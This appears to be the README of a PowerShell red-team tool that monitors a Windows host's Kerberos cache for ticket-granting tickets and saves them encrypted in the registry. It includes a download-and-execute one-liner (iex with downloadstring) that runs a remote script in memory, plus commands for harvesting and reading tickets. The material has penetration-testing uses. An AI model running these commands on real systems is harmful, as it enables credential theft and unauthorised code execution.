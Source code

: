 # TGT_Monitor
This script continuously monitors cache for new TGTs and displays them on the screen (admin privs required)

The retrieved TGTs are encrypted and stored in the system's registry. When you execute the script, you will provide a password that will be used to encrypt and decrypt TGTs stored in the registry.

### Load in memory

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/TGT_Monitor/main/TGT_Monitor.ps1')
```

### Start Monitoring

```
TGT_Monitor -EncryptionKey "YourSecurePassword"
```

### Monitor for a specific time (sec)

```
TGT_Monitor -EncryptionKey "YourSecurePassword" -Timeout 10
```

### Read Tickets from registry

```
TGT_Monitor -EncryptionKey "YourSecurePassword" -Read
```

### Clear TGTs previously saved in Registry

```
TGT_Monitor -Clear
```

### Dependency: https://github.com/MzHmO/PowershellKerberos
